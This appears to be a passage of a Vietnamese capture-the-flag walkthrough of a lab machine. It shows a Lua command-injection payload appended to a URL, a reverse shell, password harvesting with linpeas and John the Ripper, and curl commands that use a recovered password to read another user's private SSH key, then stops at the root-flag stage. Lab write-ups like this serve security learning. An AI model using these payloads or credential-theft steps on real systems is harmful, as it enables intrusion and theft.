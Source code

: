 ![image](https://hackmd.io/_uploads/HyU7ib5jR.png)

Lua là ngôn ngữ lập trình và khi tìm google về cách khai thác này thì nó có thể dính vào lỗ hổng CMDi. Ta thêm `')os.execute("whoami")--` vào cuối URL. Lệnh được thực thi

![image](https://hackmd.io/_uploads/B1skZfqiR.png)

Tạo 1 reverse shell và ecode thì nó mới chạy thành công 

![image](https://hackmd.io/_uploads/r1eRZM5iR.png)

Và ta vẫn chưa thể vào để lấy được user flag

![image](https://hackmd.io/_uploads/r1N9Gf5jR.png)

### Linpeas
Upload `linpeas` vào máy mục tiêu và ta quét được credential của user `webapi_user` và port 9001

![image](https://hackmd.io/_uploads/rkRb8z5s0.png)

### John The Ripper
Crack pass thu thập được bằng john 

![image](https://hackmd.io/_uploads/Syko8zqiA.png)

### Read file by curl
Ta liệt kê các port đang chạy. Ta có thể thấy ngoài ra còn có 1 port **3001** đang được nghe

![image](https://hackmd.io/_uploads/S1hdKM9j0.png)

Xem các quy trình sử dụng các cổng này
```
ps -auxww | grep 3001

-w hiển thị toàn bộ output mà không bị cắt ngắn
```
![image](https://hackmd.io/_uploads/HJZjcM9sC.png)

```
curl -u 'webapi_user':'iamthebest' http://127.0.0.1:3001/~r.michaels/
```
![image](https://hackmd.io/_uploads/BkJ1hG5oC.png)

Tương tự để lấy được `id_rsa`
```
curl -u 'webapi_user':'iamthebest' http://127.0.0.1:3001/~r.michaels/id_rsa
```
## Post-Exploit
![image](https://hackmd.io/_uploads/HJG7pf5iA.png)
```
luanne$ cat /home/r.michaels/user.txt
ea5f0ce6a917b0be1*******
```
# Root flag
## Exploit
Sau khi liệt kê 3 thư mục hiện có thì có thư mục `backups` là có thể khai thác nhất
